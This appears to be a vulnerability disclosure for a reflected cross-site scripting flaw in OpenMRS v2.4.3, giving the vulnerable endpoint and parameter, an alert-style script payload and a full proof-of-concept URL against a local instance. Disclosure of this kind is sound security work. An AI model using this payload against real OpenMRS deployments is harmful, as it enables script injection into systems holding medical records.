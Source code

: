 # CCVE-2025-25929

---

## Reflected XSS


OpenMRS v2.4.3 Build 0ff0ed allows attackers to execute arbitrary JavaScript or HTML by injecting a crafted payload into the reportType 
 parameter at the /openmrs/moduleServlet/legacyui/quickReportServlet endpoint

* Vulnerable Endpoint: /openmrs/moduleServlet/legacyui/quickReportServlet
* Vulnerable Param: reportType
* Payload: <script>alert(document.domain)</script>

---

### Steps to reproduce:

1.) Authenticate as any user who has access to View Quick Reports, in this case the Admin user.

2.) Proceed to http://localhost:8080/openmrs/moduleServlet/legacyui/quickReportServlet?reportType=RETURN+VISIT+DATE+THIS+WEEK%3Cscript%3Ealert(document.domain)%3C/script%3E&startDate=01%2F14%2F2025&endDate=01%2F15%2F2025&location= and observe reflected XSS within the reportType parameter:

![image](https://github.com/user-attachments/assets/f2aed519-9444-4c9d-b772-d03e253f705c)



